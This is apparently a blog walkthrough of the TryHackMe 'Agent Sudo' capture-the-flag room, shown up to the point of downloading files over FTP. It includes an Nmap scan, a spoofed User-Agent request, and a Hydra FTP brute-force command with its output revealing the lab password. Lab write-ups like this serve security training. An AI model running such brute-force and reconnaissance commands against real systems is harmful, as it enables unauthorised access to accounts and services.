 ```yaml
---
title: Agent Sudo | TryHackMe WriteUp
date: 2024-05-30
categories: [Walkthrough]
tags: [TryHackMe]
---
```


# Agent Sudo | TryHackMe WriteUp

![image](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/d2c9057e-ec75-4e46-93c2-9e88350f1c96)


**Lab URL:** [Agent Sudo](https://tryhackme.com/r/room/agentsudoctf)

## Scenario

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

**Target IP Address:** 10.10.61.20

## Initial Nmap Scan

Run the initial Nmap scan to identify open ports and services:

```bash
nmap -A 10.10.61.20 > nmap
```

The results of the Nmap scan:

```plaintext
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-30 10:47 IST
Nmap scan report for 10.10.61.20
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/30%OT=21%CT=1%CU=30825%PV=Y%DS=5%DC=T%G=Y%TM=6658
OS:0C2B%P=x86_64-unknown-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%TS=A)
OS:SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508S
OS:T11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=
OS:68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=
OS:M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   104.26 ms 10.17.0.1
2   ... 4
5   254.98 ms 10.10.61.20

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.71 seconds
```

## Analysis

Open ports and running services:

- **21/tcp**: FTP (vsftpd 3.0.3)
- **22/tcp**: SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3)
- **80/tcp**: HTTP (Apache httpd 2.4.29)

## Next Steps

A web server is running on port 80. Let’s open it and investigate further.

[Access the web server on port 80](http://10.10.61.20).

![Screenshot from 2024-05-30 10-52-30](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/cbe38abb-008a-439b-9f99-0cfb6392e441)

Upon visiting the webpage, it displays an announcement indicating to check the `/agent_C_attention.php` page using a specific User-Agent. The instructions hint that the User-Agent should be the codename "C".

To intercept the request and change the User-Agent, I used Burp Suite's Intruder.

![Screenshot from 2024-05-30 10-53-19](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/a311ddb0-f341-4d6d-b17d-f2a269f2dd7a)

Here's how the modified HTTP request looks like:

```
GET / HTTP/1.1
Host: 10.10.61.20
User-Agent: C
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

When I accessed the `/agent_C_attention.php` page with the appropriate User-Agent, it revealed a hidden message.

![Screenshot from 2024-05-30 10-53-24](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/7c0c8451-afee-48a3-86a0-827261a8469b)

```
GET /agent_C_attention.php HTTP/1.1
Host: 10.10.61.20
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
![Screenshot from 2024-05-30 10-53-50](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/88f1b2d6-b287-4a92-bbb8-bf7100e5353c)

![Screenshot_20240530_120552](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/d0d7244d-7dbf-4f18-90a4-45bdb1ad2e5e)


Now we have a username, Chris, and it’s supposed to have a weak password, so now we can Bruteforce FTP with Hydra, using any of the below commands to resolve the password.

```
┌──(root㉿neo)-[~]
└─# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.61.20  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-30 10:54:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.61.20:21/
[STATUS] 148.00 tries/min, 148 tries in 00:01h, 14344251 to do in 1615:21h, 16 active
[21][ftp] host: 10.10.61.20   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-30 10:56:51
```

username : chris
password : crystal

Now we know the password for the Agent, we can log in through FTP.

```
┌──(root㉿neo)-[~]
└─# ftp 10.10.61.20  
Connected to 10.10.61.20.
220 (vsFTPd 3.0.3)
Name (10.10.61.20:nijith): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||16534|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||20361|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*************************************************************************************************************************************************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.03 KiB/s)
mget cute-alien.jpg [anpqy?]? 
229 Entering Extended Passive Mode (|||5045|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*************************************************************************************************************************************************| 33143       67.14 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (45.44 KiB/s)
mget cutie.png [anpqy?]? 
229 Entering Extended Passive Mode (|||40027|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*************************************************************************************************************************************************| 34842       68.73 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (36.18 KiB/s)
ftp> 
```





